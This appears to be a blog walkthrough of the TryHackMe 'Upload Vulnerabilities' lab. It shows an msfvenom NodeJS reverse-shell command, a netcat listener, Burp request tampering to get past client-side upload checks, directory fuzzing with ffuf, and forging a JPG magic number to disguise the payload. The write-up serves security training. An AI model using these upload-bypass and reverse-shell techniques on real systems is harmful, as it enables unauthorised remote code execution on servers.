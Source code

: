 ## Upload Vulnerabilities

# Basic Information

| #   |     |
| :-- | :-- |
|Type    | THM Room Challenge
|Organized  by | [TryHackMe](https://tryhackme.com/)
|Name    | **THM / Upload Vulnerabilities**
|URLs    | https://tryhackme.com/room/uploadvulns
|Author  | **Asentinn** / Okabe Rintaro
|       | https://ctftime.org/team/152207

%%[patreon-btn]

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring with the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks.  
Join our [Discord Server](https://discord.com/invite/5MjU4Cxf3R)!

***
# Contents
* [Basic Information](#basic-information)
* [Recon](#recon)
* [Fuzzing](#fuzzing)
* [Additional readings](#additional-readings)
***

# Recon

I'm pulling the provided wordlist for the challenge.

![2021-08-08-15-34-20.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025720258/mPy7Gpptf.png)

![2021-08-08-15-36-29.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025732220/npSk6848D.png)

I'm already having the `/etc/hosts` entry for `jewel.uploadvulns.thm` so I'm accessing the page in browser.

> If do not, add the entry with room IP
> ```
> $ sudo nano /etc/hosts
> 
> {IP} jewel.uploadvulns.thm
> ```

![2021-08-08-15-37-52.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025740422/vSV71JHoV.png)

Running `whatweb`

```
$ whatweb jewel.uploadvulns.thm
```
![2021-08-08-15-39-04.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025750745/FTOHrT8_N.png)

We are dealing with the `nginx` backend. In the source of the page, there is a reference to the `upload.js` script file.

![2021-08-08-15-41-45.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025759300/vVdq_4LIcC.png)

Client-side validation can be easily worked around by passing the traffic through a Burp proxy and cutting the script import before it is rendered. In a real case scenario, backend validation should be at least as restrictive as client one, so it is good we can note down what files are supposed to be allowed or denied.

But first discover directories on the website

```txt
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://jewel.uploadvulns.thm/FUZZ 
```

![2021-08-08-22-06-04.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025774408/RvTlk_Znaj.png)

[Back to top](#contents) ⤴

## Client-side file upload restrictions

Let's try right away the NodeJS web shell

```
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4455 -o shell.js
```

![2021-08-08-15-58-56.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025783766/IccsnWsBE.png)

## MiM attack with request modification

We can sniff the upload request being made via Burp on a legit file.

![2021-08-08-22-02-15.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025795017/OkTYYJ-Y9.png)

Content is base64 encoded - so let's encode the `shell.js` file content and paste into Repeater - send it and voilà - we have the reverse shell file on the website.

![2021-08-08-22-00-55.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025807581/5zr4yGvib.png)

[Back to top](#contents) ⤴

# Fuzzing

We can see that existing backgrounds are named using free letter filename like `ABH.jpg` or `AVK.jpg`. Now, we can make assumption that any file that passes the upload are placed together with these backgrounds with name conforming to that rules.

> On the main page we can read *Upload it here and we'll add it to the slides!*

Fuzzing the `content` directory, we can see multiple files, and a few that have ~800 bytes - these are our payloads.

> There are multiple files uploaded because I was trying different uploads before I found the right one. See the [Bonus content](#bonus-hiding-malicious-code-behind-jpg-signature)

```
$ ffuf -w UploadVulnsWordlist.txt:FUZZ -u http://jewel.uploadvulns.thm/content/FUZZ -e .jpg
```

![2021-08-08-21-41-14.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025822041/L3trZYTyk.png)

> Other files with 800 and 799 bytes size are my previous attempts.

```
$ curl http://jewel.uploadvulns.thm/content/HRH.jpg
```

![2021-08-08-21-40-42.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025835057/esyOpliap.png)

When you try accessing the shell directly

![2021-08-08-22-07-39.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025846800/puYxuAIR0.png)

But during the directory fuzzing we have discovered the `admin` directory.

[Back to top](#contents) ⤴

## `/admin`

![2021-08-08-17-19-15.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025946263/mRynBvBqOp.png)

Can we access the file via this form? 

![2021-08-08-21-42-32.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025957871/GNAHY2wVZ.png)

Before making a request, start the listener with `nc -lvnp {PORT}` and submit the form on `/admin`.

![2021-08-08-21-42-19.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025970867/Miw2bwR-D.png)

Yes, indeed.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629096019249/jH7ipAKXB.png)

> Do you like what you see? Join the [Hashnode.com](https://blog.cyberethical.me/join) now and start publishing. Things that are awesome:

>✔ Automatic GitHub Backup

>✔ Write in Markdown

>✔ Free domain mapping

>✔ CDN hosted images

>✔ Free built-in newsletter service

>✔ Built-in blog monetizing through the Sponsor feature

> By using my link, you can help me unlock the ambassador role, which cost you nothing and gives me some additional features to support my content creation mojo.

[Back to top](#contents) ⤴

# Additional readings

> 📌 Follow the `#CyberEthical` hashtag on the social media

> 🎁 Become a Patron and [gain additional benefits](https://www.patreon.com/cyberethicalme)

> 👉 Instagram: [@cyber.ethical.me](https://www.instagram.com/cyber.ethical.me/)

> 👉 LinkedIn: [Kamil Gierach-Pacanek](https://www.linkedin.com/in/kamilpacanek)

> 👉 Twitter: [@cyberethical_me](https://twitter.com/cyberethical_me)

> 👉 Facebook: [@CyberEthicalMe](https://facebook.com/CyberEthicalMe)


## Bonus: hiding malicious code behind JPG signature

Forging a JPG/JPEG file requires a file to start with _magic number_ `FF D8 FF`.

![2021-08-08-15-45-40.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025999955/gkf6wjGND.png)

1. Edit payload: prepend `AAA` at the beginning of the file

2. Edit the payload in `hexedit` replacing first octets with `FF D8 FF`.

Before:

![2021-08-08-21-56-06.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026010299/-rNo_5Roi.png)
![2021-08-08-21-56-48.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026017976/lH6lGS0jd.png)

After:

![2021-08-08-21-59-21.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026028932/278nMuUIM.png)
![2021-08-08-21-57-30.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026037512/t4KNGMQ6d.png)

![2021-08-08-16-39-33.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026049401/npMd99XAy.png)

[Back to top](#contents) ⤴

